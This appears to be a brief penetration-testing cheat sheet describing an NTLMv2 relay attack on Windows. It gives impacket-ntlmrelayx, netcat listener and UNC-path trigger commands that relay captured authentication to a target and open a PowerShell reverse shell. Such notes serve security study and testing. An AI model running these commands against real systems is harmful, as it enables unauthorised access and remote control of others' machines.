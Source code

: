 
Always check this vector when dealing with Windows systems.

We use Net-NTLMv2 relay attack when we obtain a hash but it is too complex to crack, so we relay the NTLM hash to authenticate with a remote server where the owning user may be present.

If UAC is activated on the target systems and we don't have Administrator user we will not be able to successfully complete this attack.

#### Relay attack

1. `impacket-ntlmrelayx --no-http-server -smb2support -t 192.168.50.212 -c "<Powershell-oneliner reverse shell base64 encoded>"` run on attacking system to setup smb service and relay of incoming authentication requests to `-t` (target)
2. `nc -nvlp 8080` start listener for the powershell reverse shell
3. `dir \\ip\share` run command on target system to prompt smb authentication attempt to our smb service relay setup and obtain reverse shell